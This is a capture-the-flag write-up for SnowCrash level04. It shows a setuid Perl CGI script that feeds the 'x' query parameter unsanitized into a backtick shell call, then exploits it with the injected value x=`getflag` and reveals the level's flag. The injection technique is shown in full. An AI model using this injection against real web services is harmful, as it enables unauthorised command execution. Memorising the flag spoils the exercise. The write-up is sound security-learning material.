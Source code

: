 ## level04 
For level04, I was greeted with a perl script with the following contents

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Here is the file type

```
level04@SnowCrash:~$ file level04.pl
level04.pl: setuid setgid a /usr/bin/perl script, ASCII text executable
```

since the setuid and setgid bits are enabled, means this is another privellege escallation gig, I will need to execute getflag inside this script somehow to get the flag.


Upon doing some research on what the script does, I figured that this script is meant to be run as a back end CGI, where we need to spin up a webserver to accept requests.

The program defines a subroutine 'x' which takes a parameter which needs to be named 'x' and concats it to the echo call. Not much I can elaborate here since I am not good with perl. Need to trial and error this.

Luckily, the ISO already has Apache installed and it is already running on port `4747`

![](https://hackmd.io/_uploads/S1w_wAEWT.png)

I went port-forwarded the traffic and tried to adjust the x query parameter in my browser, and it does show me something as an output

![](https://hackmd.io/_uploads/r1lkd0VWa.png)

Looks like the print command of the perl script will be run by the server since its surrounded in backticks. In bash, backticks are called **command substitution** in bash which spawn a subshell and captures the output of the command inside the backtick and returns it to the main shell

```
level04@SnowCrash:~$ echo ls
ls
level04@SnowCrash:~$ `echo ls`
level04.pl
level04@SnowCrash:~$
```

If this is the case, I should make the x parameter
```
x=`getflag`
```
To run the getflag program as flag04 user.

To do that, the following query is sent 
```
http://localhost:4747/?x=`getflag`
```

And I got the following output, the flag is `ne2searoevaevoem4ov4ar8ap`

![](https://hackmd.io/_uploads/SkGIqAE-T.png)